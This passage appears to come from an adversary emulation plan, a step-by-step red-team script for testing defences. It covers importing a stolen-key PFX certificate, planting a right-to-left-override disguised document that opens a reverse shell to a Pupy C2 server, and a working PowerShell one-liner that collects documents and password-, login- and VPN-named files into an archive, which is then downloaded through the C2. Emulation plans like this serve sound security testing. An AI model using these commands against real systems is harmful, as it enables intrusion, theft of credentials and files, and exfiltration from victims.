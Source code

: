 ### Import PFX Certificate

Step 6.B of this emulation models theft of Private Keys (https://attack.mitre.org/techniques/T1145/).

1. Copy the PFX certificate located in the `payloads/shockwave.local.pfx` directory to the Windows victims.

2. Import the certificate using PowerShell:
```
Import-PfxCertificate -Exportable -FilePath "shockwave.local.pfx" -CertStoreLocation Cert:\LocalMachine\My
```

### Add RTLO character and place rcs.3aka3.doc on Windows Victim-1
* See `payload_configs.md` for instructions on how to update `cod.3aka3.scr`

## Beginning of Day1 Execution

### Step 1 - Initial Breach

#### 1.A

1. Login to victim workstation.
2. Double click `3aka3.doc` on Desktop 
    
This will send a reverse shell to the Pupy C2 server.

#### 1.B
From Pupy C2 server:

[pupy] > `shell`    

[pupy (CMD)] > `powershell`    

### Step 2 - Rapid Collection and Exfiltration

#### 2.A
Paste the following PowerShell 1-liner into the Pupy terminal:

[pupy (PowerShell)] > 
```
$env:APPDATA;$files=ChildItem -Path $env:USERPROFILE\ -Include *.doc,*.xps,*.xls,*.ppt,*.pps,*.wps,*.wpd,*.ods,*.odt,*.lwp,*.jtd,*.pdf,*.zip,*.rar,*.docx,*.url,*.xlsx,*.pptx,*.ppsx,*.pst,*.ost,*psw*,*pass*,*login*,*admin*,*sifr*,*sifer*,*vpn,*.jpg,*.txt,*.lnk -Recurse -ErrorAction SilentlyContinue | Select -ExpandProperty FullName; Compress-Archive -LiteralPath $files -CompressionLevel Optimal -DestinationPath $env:APPDATA\Draft.Zip -Force
```

[pupy (PowerShell)] > `exit`       

[pupy (CMD)] > `exit`        

#### 2.B
[pupy] > `download "C:\Users\<username>\AppData\Roaming\Draft.Zip" .`

